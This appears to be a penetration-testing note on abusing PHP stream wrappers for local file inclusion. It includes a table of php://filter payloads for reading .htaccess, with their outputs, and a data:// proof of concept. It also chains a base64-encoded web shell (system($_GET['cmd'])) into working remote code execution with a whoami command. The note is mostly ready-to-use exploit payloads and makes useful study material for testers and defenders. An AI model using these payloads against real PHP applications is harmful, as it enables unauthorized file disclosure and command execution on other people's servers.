 PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

| **Payload**                                           | **Output**                                   |
| ----------------------------------------------------- | -------------------------------------------- |
| php://filter/convert.base64-encode/resource=.htaccess | UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz |
| php://filter/string.rot13/resource=.htaccess          | ErjevgrRatvar ba Bcgvbaf -Vaqrkrf            |
| php://filter/string.toupper/resource=.htaccess        | REWRITEENGINE ON OPTIONS -INDEXES            |
| php://filter/string.tolower/resource=.htaccess        | rewriteengine on options -indexes            |
| php://filter/string.strip_tags/resource=.htaccess     | RewriteEngine on Options -Indexes            |
| No filter applied                                     | RewriteEngine on Options -Indexes            |

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly within the URI, often used for embedding small data sets or resources.

**Note:** allow_url_include must be set!

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752

check https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams for more payloads and testing.